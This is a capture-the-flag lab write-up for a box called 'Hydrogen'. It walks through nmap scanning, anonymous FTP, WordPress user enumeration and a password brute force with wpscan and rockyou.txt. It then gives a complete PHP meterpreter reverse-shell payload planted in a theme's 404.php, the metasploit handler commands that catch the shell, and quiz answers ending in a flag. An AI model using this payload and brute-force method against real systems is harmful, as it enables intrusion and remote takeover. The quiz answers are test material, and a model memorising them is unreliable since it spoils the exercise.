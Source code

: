 # HYDROGEN

__PROBLEM__

The ip address was 192.168.0.10

__SOLUTION__

So let's start with NMAP tools to the ip address 
`nmap -A -v 192.168.0.10`
and we got the following output
```
Starting Nmap 7.60 ( https://nmap.org ) at 2019-03-15 03:16 UTC
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.2.6
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--   1 ftp      ftp           472 Jan 19 12:36 email.txt
|_-r--------   1 ftp      ftp            39 Jan 18 16:31 flag1.txt
|_ftp-bounce: server forbids bouncing to low ports <1025
22/tcp open  ssh     OpenSSH 6.0p1 Debian 4+deb7u7 (protocol 2.0)
| ssh-hostkey:
|   1024 24:04:bf:3c:02:c8:ac:cd:5e:41:e8:5e:c8:47:96:76 (DSA)
|   2048 28:fd:24:7b:a5:9a:b6:62:ad:d6:3f:b0:4e:7e:ea:e9 (RSA)
|_  256 eb:b8:37:33:af:eb:a2:a7:4a:84:27:6e:35:65:d4:a6 (ECDSA)
80/tcp open  http    nginx 1.2.1
| http-methods:
|_  Supported Methods: GET HEAD
| http-robots.txt: 1 disallowed entry
|_/phpmyadmin
|_http-server-header: nginx/1.2.1
|_http-title: Hydrogen Co
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
Initiating NSE at 03:16
Completed NSE at 03:16, 0.00s elapsed
Initiating NSE at 03:16
Completed NSE at 03:16, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.29 seconds
```

__PROBLEM__

How many services running on Hydrogencorp

__HINT__

Give me a sum of running services on hydrogencorp.

__ANSWER__

_3_

__PROBLEM__

On the port for file transfer service, what is the version for the application?

__HINT__

Give me the application version number. (e.g 1.2.6)

__ANSWER__

_1.2.6_

__PROBLEM__

What is the software name running on port 80?

__HINT__

Give me the software name running on port 80 on this host. (e.g. IIS)

__ANSWER__

_nginx 1.2.1_

__PROBLEM__

What is the software and version running on port 22?

__HINT__

Give me the software and version running on port 22. (e.g. ProFTPD and 1.4.5

__ANSWER__

_OpenSSH and 6.0p1_

__PROBLEM__

What is the domain name of the application?

__HINT__

Find the domain name of this host. (e.g. example.com)

__ANSWER__

There are also email.txt in ftp service, we check the content and we can see the domain.
```To: John <john@hydrogen.co>
From: Alice <alice@ymail.com>
Date: 19 August 2016
Subject: Applicant for Junior System Administration

---------------------------------------------------

Dear Hiring Manager,

I interested to apply the posting job on your blog.
If I can provide you with any further information on
my background and qualifications, please let me know.

I look Forward to hearing from you. Thank you for your
consideration.

Sincerely,

Alice
alice@ymail.com
```

_hydrogen.co_

__Cont..__

got the domain and the ip, so map the ip address 192.168.0.10 with hydrogen.co at `/etc/hosts`

open hydrogen.co in the browser and get the page.. scrolling the source code and get following snippet

`<!-- <a class="nav-link" href="/wordpress/">Blog</a> -->`

go to the link `hydrogen.co/wordpress` and get the login page.

so the next tool is WPSCAN for the website with the following code..

`wpscan --url hydrogen.co/wordpress --enumerate u` and got the user john 

```
[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:01 <==========================================> (10 / 10) 100.00% Time: 00:00:01

[i] User(s) Identified:

[+] John
 | Detected By: Author Posts - Display Name (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] john
 | Detected By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
 ```
 
 brute force the wordpress with rockyou.txt `wpscan --url hydrogen.co/wordpress --enumerate u username john -P rockyou.txt`
 
 ```
 [+] Performing password attack on Xmlrpc Multicall against 2 user/s
[SUCCESS] - John / justin
[SUCCESS] - john / justin
Progress Time: 00:00:03 <                                                            > (1 / 28689)  0.00%  ETA: 26:37:34
[i] Valid Combinations Found:
 | Username: John, Password: justin
 | Username: john, Password: justin

[+] Finished: Fri Mar 15 04:20:18 2019
```

login to the wordpress.. create a payload to get into shell of the ip with this code 

`msfvenom -p php/meterpreter/reverse_tcp LHOST=my ip :P LPORT=4444 -f raw`

and got the payload

```
/*<?php /**/ error_reporting(0); $ip = 'my ip :P'; $port = 4444; if (($f = 'stream_socket_client') && is_callable($f)) { $s = $f("tcp://{$ip}:{$port}"); $s_type = 'stream'; } if (!$s && ($f = 'fsockopen') && is_callable($f)) { $s = $f($ip, $port); $s_type = 'stream'; } if (!$s && ($f = 'socket_create') && is_callable($f)) { $s = $f(AF_INET, SOCK_STREAM, SOL_TCP); $res = @socket_connect($s, $ip, $port); if (!$res) { die(); } $s_type = 'socket'; } if (!$s_type) { die('no socket funcs'); } if (!$s) { die('no socket'); } switch ($s_type) { case 'stream': $len = fread($s, 4); break; case 'socket': $len = socket_read($s, 4); break; } if (!$len) { die(); } $a = unpack("Nlen", $len); $len = $a['len']; $b = ''; while (strlen($b) < $len) { switch ($s_type) { case 'stream': $b .= fread($s, $len-strlen($b)); break; case 'socket': $b .= socket_read($s, $len-strlen($b)); break; } } $GLOBALS['msgsock'] = $s; $GLOBALS['msgsock_type'] = $s_type; if (extension_loaded('suhosin') && ini_get('suhosin.executor.disable_eval')) { $suhosin_bypass=create_function('', $b); $suhosin_bypass(); } else { eval($b); } die();
```

setup the payload by paste the payload on wordpress theme 404.php 

listen to the payload through metasploit with this code 

```
use exploit/multi/handler
set PAYLOAD php/meterpreter/reverse_tcp
set LHOST my ip :P
set LPORT 4444
exploit
```

go to the browser link at `http://hydrogen.co/wordpress/wp-content/themes/twentythirteen/404.php` and got the shell..

use `cd /` then `find -name "*.txt"` got the other flag directory 

```
./root/flag4.txt
./home/john/flag3.txt
./usr/share/nginx/www/wordpress/flag2.txt
```

found `./usr/share/nginx/www/robots.txt` which is interesting ofcourse..

__PROBLEM__

Get flag5

__HINT__

flag5 is hidden in secret column

__ANSWER__

went to the `hydrogen.co/robots.txt` gave us `disallow:/phpmyadmin` hence go the link `hydrogen.co/phpmyadmin`, login with same user and password.. we can get into the database.. search database for something useful and we found the flag5..

_flag{a260af638f07d39c838810eda005ceb3}_










